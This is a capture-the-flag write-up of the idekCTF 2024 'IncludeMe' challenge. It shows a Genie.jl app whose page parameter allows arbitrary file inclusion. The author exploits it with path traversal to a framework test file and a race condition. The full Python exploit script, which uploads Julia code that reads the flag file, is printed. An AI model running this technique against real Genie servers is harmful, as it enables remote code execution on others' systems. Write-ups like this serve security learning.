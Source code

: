 ```yaml
---
id: 476adce3-c249-4a2d-ad88-ea823a5c99a1
title: Arbitrary File Inclusion Leading to RCE in Genie.jl - IncludeMe [idekCTF 2024]
created_time: 2024-08-19T00:24:00.000Z
last_edited_time: 2024-09-28T00:27:00.000Z
cover_image: ./imgs/images_CYPDSAFZ
icon_emoji: 🏎️
categories: []
verification:
  state: unverified
  verified_by: null
  date: null
page: Arbitrary File Inclusion Leading to RCE in Genie.jl - IncludeMe [idekCTF 2024]
owner:
  - object: user
    id: ee7aeeeb-cd0d-4cbb-9e7e-109320ff16fa
    name: Dimas
    avatar_url: >-
      https://s3-us-west-2.amazonaws.com/public.notion-static.com/fab4bcf0-36ea-4bd6-8847-f18b157387da/92920739.png
    type: person
    person:
      email: dimasmaulana0305@gmail.com
_thumbnail: ./imgs/images_CYPDSAFZ

---
```


In idekCTF 2024, I played with the **P1G SEKAI** team and secured 1st place out of 1,068 teams! I solved a challenge named "Included me" and got the first blood on that challenge.

# Challenge Description

another minimalist, frontend-less, challenge because i'm bad at writing server-side challenges

[image](https://prod-files-secure.s3.us-west-2.amazonaws.com/39d1be85-e7c6-4263-a666-a42da95a70df/709a0b78-7ae2-4171-930b-e98c753c8621/includeme.tar.gz?X-Amz-Algorithm=AWS4-HMAC-SHA256\&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD\&X-Amz-Credential=ASIAZI2LB466R4LQIECY%2F20250522%2Fus-west-2%2Fs3%2Faws4_request\&X-Amz-Date=20250522T100306Z\&X-Amz-Expires=3600\&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEBoaCXVzLXdlc3QtMiJHMEUCIQCHUMuLNeTTqf31lRpFMC5JHaacCpufLIc1%2FA1jruXKEQIgE5G9pcoeGl%2BsoA11jFCrscfz%2FQVF8oNhkodOycfxHmAqiAQI0%2F%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FARAAGgw2Mzc0MjMxODM4MDUiDJfhe%2FBM%2BYNpdRzT2CrcA%2Bkibiga0j5CqBKQ7v%2FI4BphF1onB%2BFxh6Gixih0yD7kWm8kueUK3%2FRkWN5ZdGQdXUyovQfsbHgbkXOVUCss253kDiTkDyG%2BCa2mFo5ePgS1FrIrdvJmxBf1wEMyD25YKAvDg9lXQorLUzUXZZmtCR%2FJQVA0shOQUdMcV0UvwWkG3Bphz%2F09E5PFhfStRGiNBnxIZ%2B%2Bhisa%2BzdZAnowQ56aMCe%2FIVJAOTGJgVRwkGjLcBvrJV1XJ1NImnQbfBfUQ%2FU432MgDuJ96BWzqMpZbCseHMnYPU7lDTzR7xm2%2BUn2VTozBSFTNDnpCaleQY%2FyK21kIzRvgo1V4Btrmkn8%2BlgNz%2BykAalpeheeySo1gXK10Xb0gUOIcz7cpLRIGZbyxDzFTHoR%2BmZtEwu%2FX%2F%2F4YRfhigtH8IXGLSnJkan8QV9q%2BBt3sYMGaLAZfaAunTz%2B9xkARU82wUldGJCaFQD8%2BuDSYTwTl%2B46CZR36w5PDHhJCTvAzlCT3UWJGJPAvMMdtf77vH4Hn2S%2FmoU1ioSS2fKT06BorZXHNvfl7FK8qZaJ5ky924pAyb4imvrC5y8bLtEO0IGdawtLmgq9raN5MZPZXupg56NncNyXDAWfc9swuw%2Fpgaipgtd3Sj99iMJXdu8EGOqUBHLac6M5YsFKimbhhiImElBlBfeyvPQJ3A3N9%2FqyZDW49jzb6XpnRMex3668EcxZFLso9az3rKDCDWdI9E%2B9TaIJaZ0hCYHl%2B8CimUyI%2BB3JEIY4mnDXACq1mKtU4T61GSYh63FN%2B4eOCIRp7fGEUzdwmJ1BTDsRq%2FsymEvKdaWoYnASQn2WzgbtelyAG1ZldfJoZBKVt7i9NcCMWMQhQf77cxPW8\&X-Amz-Signature=a42feeb2b6c3667d30ba19c13c29be8985690404eca5340ecf992448c645e998\&X-Amz-SignedHeaders=host\&x-id=GetObject)

# How to Solve

The goal of this challenge was to achieve Remote Code Execution (RCE) and capture the flag. The program was vulnerable to arbitrary file inclusion here:

```julia
using Genie, Genie.Requests, Pkg

Pkg.activate(".")

index() = include(params(:page, "example.jl"))

route("/", index)

up(1337, "0.0.0.0", async = false)
```

We could include arbitrary files into the application, altering its flow. I discovered that we could include a test case from this Genie.jl repository:

> [![image](./imgs/b322ed80-bc5a-11e9-807a-9b53749c40ef_ftYlQyUC) **Genie.jl/test/fileuploads/test.jl at 509886d61a75d74bcbd45db1f77230abd4cd11a8 · GenieFramework/Genie.jl**](https://github.com/GenieFramework/Genie.jl/blob/509886d61a75d74bcbd45db1f77230abd4cd11a8/test/fileuploads/test.jl#L14)\
> 🧞The highly productive Julia web framework. Contribute to GenieFramework/Genie.jl development by creating an account on GitHub.\
> <https://github.com/GenieFramework/Genie.jl/blob/509886d61a75d74bcbd45db1f77230abd4cd11a8/test/fileuploads/test.jl#L14>

This test case essentially exposes a file upload vulnerability, allowing us to upload arbitrary files into Genie. However, after including that file, the program’s flow would change, preventing us from doing it a second time… or would it? The solution is yes, we can include it again if we’re fast enough to include `app.jl` right after uploading the file. This requires a race condition. Here's my solution script:

```python
import httpx
import asyncio

URL = "http://localhost:1337"
# URL = "https://includeme-295e03fffda9795f.instancer.idek.team/"

class BaseAPI:
    def __init__(self, url=URL) -> None:
        self.c = httpx.AsyncClient(base_url=url, timeout=100)
    def page(self, page):
        return self.c.get("/", params={"page": page})
    def upload(self, fileupload):
        return self.c.post("/", files={"fileupload": ("x.jl", fileupload)})
class API(BaseAPI):
    ...

async def main():
    api = API()
    ress = []
    res1 = api.page("../home/ctf/.julia/packages/Genie/yQwwj/test/fileuploads/test.jl")
    ress.append(res1)
    for i in range(10):
        res2 = api.upload("""
read(`cat flag.txt`, String)
""")
        for j in range(10):
            res3 = api.page("app.jl")
            ress.append(res3)
        ress.extend([res1, res2])
    ress = await asyncio.gather(*ress)
    for res in ress:
        print(res.text)


if __name__ == "__main__":
    asyncio.run(main())

```

Next, visit <http://localhost:1337/?page=x.jl> to retrieve the flag.

![](./imgs/image_2FRbeU5K.png)
